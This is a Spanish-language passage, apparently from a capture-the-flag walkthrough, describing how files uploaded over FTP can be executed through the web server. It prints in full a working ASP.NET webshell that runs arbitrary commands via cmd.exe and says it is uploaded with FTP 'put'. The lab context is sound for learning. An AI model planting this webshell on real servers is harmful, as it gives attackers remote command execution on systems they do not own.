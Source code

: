 Como se puede ver, nos saca el archivo welcome.png existente dentro del servicio ftp, lo que me dice que si subo un archivo desde ftp podré ejecutarlo desde el navegador.

De forma que subo una webshell al servidor para poder ejecutar comandos.

```c#
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
```

Esta webshell viene por defecto en la ruta `/usr/share/webshells/aspx/cmdasp.aspx`

A través del comando `put` desde ftp subo la webshell al servidor web.
